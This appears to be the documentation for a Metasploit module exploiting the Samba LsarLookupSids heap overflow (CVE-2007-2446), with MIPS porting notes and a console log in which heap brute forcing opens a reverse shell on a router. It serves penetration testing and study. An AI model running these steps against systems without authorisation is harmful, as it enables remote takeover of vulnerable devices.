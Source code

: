 ## Vulnerable Application

  Samba 3.0.0 through 3.0.25rc3 are vulnerable to multiple heap overflows. This module targets a heap overflow in the LsarLookupSids RPC call (CVE-2007-2446), causing an overflow in the function lsa\_io\_trans_name().

  The exploit uses the heap overflow to overwrite a function pointer contained in the metadata of the TALLOC memory allocator, a technique which only works on Samba versions 3.0.21-3.0.24.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/samba/lsa_transnames_heap`
  3. Do: `show targets` to see the possible targets
  4. Do: `set target #`
  5. Do: `set rhost`
  6. Do: `exploit`

## MIPS port

  This module was ported to exploit the MIPS architecture. After creating a suitable debugging environment using qemu to emulate Samba on a desktop PC the following steps were required:

### MIPS nop generator

  The exploit uses a heap overflow to put a large nop sled in memory to decrease the accuracy needed in the initial redirection of code flow. A nop sled is a large section of contiguous instructions which do nothing. When code flow is redirected to a nop sled it will continue executing the effect-less nops. At the end of the sled the true payload is added and execution will eventually hit this code.

  A nop generator module was created for MIPS by creating a stream of random instructions which create no side-effects e.g. `sll $2, $2, 0`

### Heap address brute force

  The exploit uses a brute force approach to minimize problems with unpredictability in heap layout. The exploit itself is run multiple times, each time targeting a different point in the heap with the change of execution flow. If all goes correctly, the nop sled will be hit and code execution will follow. If the nop sled is missed, the Samba process is likely to crash, which is generally not a problem as a new instance is forked for each incoming connection. In the event of a crash, a new heap address is chosen and exploitation is attempted again.

  When porting the exploit to a new system, the approximate heap layout must be known in order to suitably attempt exploitation across all of the possible heap locations. As the MIPS port targeted a specific router, the heap layout was determined by examining the ranges identified in `/proc/<pid>/maps`

## Scenarios

    msf > use exploit/linux/samba/lsa\_transnames_heap
    msf exploit(lsa\_transnames_heap) > set target 7
    target => 7
    msf exploit(lsa\_transnames_heap) > set rhost 192.168.1.1
    rhost => 192.168.1.1
    msf exploit(lsa\_transnames_heap) > show options

    Module options (exploit/linux/samba/lsa\_transnames_heap):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOST    192.168.1.1      yes       The target address
       RPORT    445              yes       The SMB service port
       SMBPIPE  LSARPC           yes       The pipe name to use


    Exploit target:

       Id  Name
       --  ----
       7   Linux Heap Brute Force (OpenWRT MIPS)


    msf exploit(lsa\_transnames_heap) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] 192.168.1.1:445 - Creating nop sled....
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55900000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x5590f000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected

    ...Some intermediate attempts ommitted...

    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x55996000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] 192.168.1.1:445 - Server did not respond, this is expected
    [*] 192.168.1.1:445 - Trying to exploit Samba with address 0x559a5000...
    [*] 192.168.1.1:445 - Connecting to the SMB service...
    [*] 192.168.1.1:445 - Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@ncacn_np:192.168.1.1[\lsarpc] ...
    [*] 192.168.1.1:445 - Calling the vulnerable function...
    [*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.1:4175) at 2016-10-31 14:00:33 +0000

    uname -a
    Linux WNR2200 2.6.15 #1 Mon Dec 23 15:58:24 CST 2013 mips unknown